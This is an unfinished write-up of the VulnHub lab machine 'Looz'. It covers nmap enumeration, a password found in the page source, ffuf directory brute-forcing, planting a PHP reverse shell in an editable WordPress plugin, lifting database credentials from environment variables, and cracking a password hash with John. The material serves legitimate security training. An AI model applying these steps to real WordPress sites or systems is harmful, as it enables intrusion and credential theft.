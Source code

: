# Looz - Not completed

![image](https://user-images.githubusercontent.com/5285547/129017281-3bfca710-1e46-4e57-bac6-7a1926977155.png)

Room link: https://www.vulnhub.com/entry/looz-1,732/

## Enum

Nmap 

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql
8081/tcp open   blackice-icecap


PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:80:23:86:76:97:19:09:9d:50:b1:94:c9:8d:a5:0c (RSA)
|   256 3d:52:5e:29:fb:2f:29:e8:01:e4:5d:1b:a1:1e:f3:4b (ECDSA)
|_  256 f0:f4:77:dc:3d:53:c3:c5:35:82:87:a5:ba:57:b4:49 (ED25519)
80/tcp   open   http         nginx 1.18.0 (Ubuntu)
|_http-generator: Nicepage 3.15.3, nicepage.com
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql        MySQL 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Support41Auth, ODBCClient, SupportsCompression, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Mt~Ae[v`^78Qpar;l3U6
|_  Auth Plugin Name: mysql_native_password
8081/tcp open   http         Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://jetty/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Port 80

Main Page

![image](https://user-images.githubusercontent.com/5285547/129017511-3631397f-2b74-4d52-8cae-d4ab8b2c36a4.png)

Looking at the sourcecode of the page we see a password for a user John.

![image](https://user-images.githubusercontent.com/5285547/129017594-fe58c1bc-9223-459b-ac24-11f5d28b88dd.png)

```
john:y0uC@n'tbr3akIT
```

## Port 8081

I only got redirected back to port 80, so tried to brute force the directories. 

```
ffuf -u http://192.168.1.121:8081/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

wp-admin                [Status: 301, Size: 324, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 327, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 326, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

Going to http://192.168.1.121/wp-admin redirected me to 

```
http://wp.looz.com/wp-login.php?redirect_to=http%3A%2F%2Fjetty%3A8081%2Fwp-admin%2F&reauth=1
```

Adding wp.looz.com to /etc/hosts I can then see the login page. 

After loggin in as john, I seen akismet plugin was editable so added a PHP reverse shell to the plugin and updated the file. 
Activatiing the pluing after gave me the shell back. 

Time to enumerate the system to see what we can find. 

env

```
PHP_EXTRA_CONFIGURE_ARGS=--with-apxs2 --disable-cgi
APACHE_CONFDIR=/etc/apache2
MYSQL_ENV_GPG_KEYS=177F4010FE56CA3336300305F1656F24C74CD1D8
HOSTNAME=a5610f5f2480
PHP_INI_DIR=/usr/local/etc/php
MYSQL_ENV_MARIADB_VERSION=1:10.5.10+maria~focal
SHLVL=0
PHP_EXTRA_BUILD_DEPS=apache2-dev
OLDPWD=/var/www
MYSQL_ENV_MYSQL_DATABASE=wpdb
PHP_LDFLAGS=-Wl,-O1 -pie
APACHE_RUN_DIR=/var/run/apache2
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_VERSION=7.4.20
APACHE_PID_FILE=/var/run/apache2/apache2.pid
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
WORDPRESS_DB_PASSWORD=Ba2k3t
PHP_ASC_URL=https://www.php.net/distributions/php-7.4.20.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_URL=https://www.php.net/distributions/php-7.4.20.tar.xz
TERM=xterm
WORDPRESS_DB_USER=dbadmin
MYSQL_PORT_3306_TCP_ADDR=172.17.0.2
MYSQL_ENV_MYSQL_ROOT_PASSWORD=root-password
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MYSQL_ENV_GOSU_VERSION=1.12
MYSQL_PORT_3306_TCP_PORT=3306
APACHE_LOCK_DIR=/var/lock/apache2
MYSQL_PORT_3306_TCP_PROTO=tcp
LANG=C
MYSQL_ENV_MARIADB_MAJOR=10.5
WORDPRESS_DB_NAME=wpdb
APACHE_RUN_GROUP=www-data
APACHE_RUN_USER=www-data
MYSQL_PORT=tcp://172.17.0.2:3306
MYSQL_ENV_MYSQL_PASSWORD=Ba2k3t
APACHE_LOG_DIR=/var/log/apache2
MYSQL_PORT_3306_TCP=tcp://172.17.0.2:3306
MYSQL_NAME=/wpcontainer/mysql
PWD=/var/www/html
PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc             libc-dev  make             pkg-config              re2c
MYSQL_ENV_MYSQL_USER=dbadmin
PHP_SHA256=1fa46ca6790d780bf2cb48961df65f0ca3640c4533f0bca743cd61b71cb66335
APACHE_ENVVARS=/etc/apache2/envvars
```

Found creds in the env, which also points to being in a docker container. 

Mysql

```
mysql -u dbadmin -p 
Ba2k3t
```

![image](https://user-images.githubusercontent.com/5285547/129023470-f4468619-6842-469c-aead-75080c6feab6.png)

![image](https://user-images.githubusercontent.com/5285547/129023572-fb616155-d3d8-4bf5-ae59-5dc601f93ac3.png)


## Password Crack. 

Having the hash for all the users, I managed to crack one called gandolf

gandolf:$P$BGOXSxRtzMKFKkRZ246loTIXH5AFQm/

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Using this we can ssh onto the box as gandalf. 

